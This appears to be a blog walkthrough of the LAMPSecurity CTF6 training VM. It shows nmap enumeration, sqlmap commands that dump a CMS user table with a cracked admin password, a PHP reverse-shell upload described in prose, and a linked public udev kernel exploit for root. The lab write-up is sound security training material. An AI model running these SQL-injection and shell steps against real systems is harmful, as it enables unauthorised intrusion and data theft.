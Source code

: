```yaml
---
layout: blog_item
title:  "LAMP Security CTF6 - Walkthrough"
date:   2024-03-04 19:40:60
author: Dhruv Ambaliya
description: 'LAMP Security CTF 6 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com)

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the <b>web application</b> as the entry point.</p>
</div>

## Enumeration

### Host Service Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.131

{% endhighlight %}

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 110</code></p></pc>
           </td>
           <td>
              <pc><p>pop3</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>rpcbind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 143</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 621</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 993</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 995</code></p></pc>
           </td>
           <td>
              <pc><p>POP3 SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP:3306 </code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL 5.0.45</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Web Application Enumeration

Inspection of the Web Application indicated it was vulnerable to SQL injection.



## SQLMap - SQL Injection

SQLMap confirmed [SQL injection](/penetration-testing/web-app/sql-injection/)) was possible.

{% highlight bash %}
[ root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms --dbs

available databases [5]:
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
{% endhighlight %}

SQLMap form enumeration:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
--tables

Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+
{% endhighlight %}

SQLMap database dump + admin account hash cracked:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
-T user --dump

Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------------------+
| user_id | user_username | user_password                                |
+---------+---------------+----------------------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 (adminpass) |
+---------+---------------+----------------------------------------------+
{% endhighlight %}

## Web Application Exploitation

Using the previously discovered admin account credentials, it was possible to login to the web application and upload a php reverse shell using an image upload form.

![PHP Web Shell Upload](/img/blog/ctf6/webshell.png)

## Local Privilege Escalation

A successful reverse shell was establish and the kernel appeared to be
vulnerable to a well know [Linux 2.6 kernel udev
exploit](https://www.exploit-db.com/exploits/8478/).

{% highlight bash %}
sh-3.2$ uname -ar
Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008
i686 i686 i386 GNU/Linux
{% endhighlight %}

The exploit requires the PID for the udev process, the exploit does not work
flawlessly as you can see below it may take several attempts to get a root
shell.

![Exploit Process UDEV PID](/img/blog/ctf6/exploit-process-udev-pid.png)

Thanks for the VM :)
